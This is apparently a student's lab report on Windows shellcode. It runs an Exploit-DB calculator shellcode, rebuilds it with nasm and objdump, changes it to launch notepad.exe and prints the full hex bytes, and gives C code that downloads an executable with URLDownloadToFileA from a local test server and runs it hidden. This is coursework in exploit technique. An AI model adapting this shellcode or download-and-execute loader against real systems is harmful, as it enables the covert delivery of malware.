

## chap0x04实验报告  
#### 实验要求：  
- [x] 把[链接](https://www.exploit-db.com/shellcodes/48116)中shellcode能够成功运行  
- [x] 能从汇编源码编译通过并成功dump  
- [x] 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理  
- [x] 修改shellcode功能为运行记事本程序notepad. exe  
- [ ] (选做，难度较大)修改shellcode功能为下载执行器，即下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA)  
#### 实验过程：  
* 成功运行弹出计算器的shellcode  
    * 背景知识：
        * VirtualProject函数  
            * 函数原型  
            ```  
            BOOL VirtualProtect(  
            LPVOID lpAddress,  //要改变属性的内存起始地址
            DWORD dwSize,  //要改变属性的内存区域大小
            DWORD flNewProtect,  //内存新的属性类型  
            PDWORD lpflOldProtect  //内存原始属性类型保存地址  
            );  
            ```  
            * 源代码中的应用  
            ```  
              VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &old_protect);  
            ```  
            修改该段内存属性为可读可写可执行  
    * 准备工作  
        * 打开项目->属性进行修改：  
          
        * 把.cpp文件改成.c文件  
        源码中出现函数指针和字符数组指针的强制类型转换，.cpp文件编译无法通过，改成.c后可以成功编译   
    * 运行  
     
    * 问题与解决
    * 问题：编译成功，但是执行时代码异常退出（在关闭了数据执行保护的情况下）  
    * 解决：将解决方案平台由x64改变为x86，成功弹出计算器。  
* 能从汇编源码编译通过并成功dump  
    * 步骤：
    1.将汇编源码传进Linux虚拟环境
    2.执行以下两条命令  
    ```  
    nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o  
    for i in $(objdump -D   win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo  
    ```  
    * 运行结果  
      
      
* 修改shellcode功能为运行记事本程序  
    * 步骤：
    1.修改汇编源码，相应部分修改为notepad.exe,如下：
        ```  
        push 0x00657865     ;00exe
        push 0x2e646170     ;.dap
        push 0x65746f6e     ;eton
        ```  
        2. 将汇编源码传入虚拟机，执行以下两条命令：  
        ```  
        nasm -f win32 win32-WinExec_notepad-Exit.asm -o win32-WinExec_notepad-Exit.o    
        for i in $(objdump -D   win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo  
        ```  
        3. 获得相应的shellcode  
        ```  
          \x89\xe5\x83\xec\x20\x31\xdb\x64\x8b  
           \x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b    
          \x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc    
          \x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01  
          \xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b 
          \x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53  
          \x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14  
         \x89\x55\xec\xeb\x32\x31\xc0\x8b\x55  
          \xec\x8b\x7d\xf8\x8b\x75\x18\x31\xc9  
          \xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83  
          \xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0  
          \x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66  
          \x8b\x04\x41\x8b\x04\x82\x03\x45\xfc  
          \xc3\xba\x78\x78\x65\x63\xc1\xea\x08  
          \x52\x68\x57\x69\x6e\x45\x89\x65\x18  
          \xe8\xb8\xff\xff\xff\x31\xc9\x51\x68  
          \x65\x78\x65\x00\x68\x70\x61\x64\x2e  
          \x68\x6e\x6f\x74\x65\x89\xe3\x41\x51  
          \x53\xff\xd0\x31\xc9\xb9\x01\x65\x73  
          \x73\xc1\xe9\x08\x51\x68\x50\x72\x6f  
          \x63\x68\x45\x78\x69\x74\x89\x65\x18  
          \xe8\x82\xff\xff\xff\x31\xd2\x52\xff\xd0  
        ```  
        4.执行程序，弹出notepad  
          
*   (选做，难度较大)修改shellcode功能为下载执行器，即下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA)  
1.源代码：    
```  
#include<Windows.h>
#include<urlmon.h>
typedef int (WINAPI* MY_DOWNLOAD_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);
int main()
{
	HMODULE  hurlmod = LoadLibrary("urlmon.dll");//手工加载，导入表里不会显现
	MY_DOWNLOAD_PROC function_ptr =
		(MY_DOWNLOAD_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");//在导入表里根据函数名找到函数地址
	function_ptr(NULL, "http://127.0.0.1:8000/overflow.exe", "a.exe", 0, NULL);
	//URLDownloadToFile(NULL,"http://by.cuc.edu.cn", "a.html", 0, NULL);
	WinExec("a.exe", SW_HIDE);//执行
	return 0;
}  
```  
2.  步骤：
    * 在存有overflow.exe的目录下搭建http server  
    ```  
    python -m http server  
    ```  
    * 执行上述源代码  
      
      

附：  
执行 calc.exe 的源代码：calc.c
执行 notepad.exe 的源代码：notepad.c
执行 下载a.exe的源代码：dll_c.c


     


                        


